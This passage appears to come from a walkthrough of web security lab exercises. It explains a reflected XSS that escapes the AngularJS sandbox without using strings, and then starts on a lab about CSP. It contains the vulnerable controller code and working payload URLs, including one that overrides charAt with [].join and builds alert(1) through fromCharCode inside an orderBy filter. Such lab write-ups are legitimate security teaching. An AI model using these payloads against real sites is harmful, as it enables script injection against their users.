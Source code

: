 We see that write again the key variable and a execute a new query, we can see now that **we can control the key variable**
```js
angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
                            $scope.query = {};
                            var key = 'search';
                            $scope.query[key] = 'testing';
                            $scope.value = $parse(key)($scope.query);
                            var key = 'pwned';
                            $scope.query[key] = 'value';
                            $scope.value = $parse(key)($scope.query);
                        });
```

You can try to do a simple addition

```
https://0ab9001f03857346808e03bb005d00f2.web-security-academy.net/?search=testing&2%2b2=value
```

Uuuh we see that respond with a 4. Now we can try to inject the payload seen above in the XSS Cheatsheet.

You have to url encode the `=` to  `%3D`
```
https://0ab9001f03857346808e03bb005d00f2.web-security-academy.net/?search=testing&toString().constructor.prototype.charAt%3D[].join; [1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=value
```

And we solve the lab, but don't worry if you don't see the alert, it's some error of the lab.


- `toString().constructor.prototype.charAt=[].join;` -> Is indicating that the function charAt(that is using for analyse the characters in the sandbox for security) **change** for `[].join`, this create and return a new string by concatenating all of the elements in the array, separated by commas or a specified separator string breaking the default way of security of the sandbox.
- `[1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=value` -> Is not necessary to have two values in the array. With **orderBy**(by default order an array based in a sort criterion that is the alert) **evaluate** the following code and as since you can't use strings you can use fromCharCode(120...) this is equal to **x=alert(1)**. Why x=alert(1)?. Because alert(1) return undefined and is insecure, but if you use a variable AngularJS can work with them and it's secure.

# Reflected XSS with AngularJS sandbox escape and CSP

**Content Security Policy (CSP)** is a security function that help to avoid attacks of commands between webpages. This happens when the browser is fooled to execute malicious content from a source that appears to be reliable but is not.

You can try to inject html code and JS, html is interpreted but JS no. If you go to some request in network tool you can see this CSP configuration:

```
content-security-policy: default-src 'self'; script-src 'self'; style-src 'unsafe-inline' 'self'
```
